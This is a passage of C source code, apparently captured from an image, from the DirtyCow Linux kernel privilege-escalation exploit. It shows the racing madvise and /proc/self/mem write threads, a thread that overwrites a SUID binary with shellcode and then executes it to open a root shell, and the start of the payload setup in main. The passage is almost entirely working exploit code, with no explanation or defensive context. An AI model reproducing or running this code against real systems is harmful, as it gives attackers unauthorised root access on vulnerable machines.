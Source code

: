 ```c
    str=(char*)arg;
    int i,c=0;
    for(i=0;i<1000000 && !stop;i++) {
        c+=madvise(map,100,MADV_DONTNEED);
    }
    printf("thread stopped\n");
}

void *procselfmemThread(void *arg)
{
    char *str;
    str=(char*)arg;
    int f=open("/proc/self/mem",O_RDWR);
    int i,c=0;
    for(i=0;i<1000000 && !stop;i++) {
        lseek(f,map,SEEK_SET);
        c+=write(f, str, sc_len);
    }
    printf("thread stopped\n");
}

void *waitForWrite(void *arg) {
    char buf[sc_len];

    for(;;) {
        FILE *fp = fopen(suid_binary, "rb");

        fread(buf, sc_len, 1, fp);

        if(memcmp(buf, sc, sc_len) == 0) {
            printf("%s overwritten\n", suid_binary);
            break;
        }

        fclose(fp);
        sleep(1);
    }

    stop = 1;

    printf("Popping root shell.\n");
    printf("Don't forget to restore /tmp/bak\n");

    system(suid_binary);
}

int main(int argc,char *argv[]) {
    char *backup;

    printf("DirtyCow root privilege escalation\n");
    printf("Backing up %s to /tmp/bak\n", suid_binary);

    asprintf(&backup, "cp %s /tmp/bak", suid_binary);
    system(backup);

    f = open(suid_binary,O_RDONLY);
    fstat(f,&st);

    printf("Size of binary: %d\n", st.st_size);

    char payload[st.st_size];
    memset(payload, 0x90, st.st_size);
    memcpy(payload, sc, sc_len+1);
```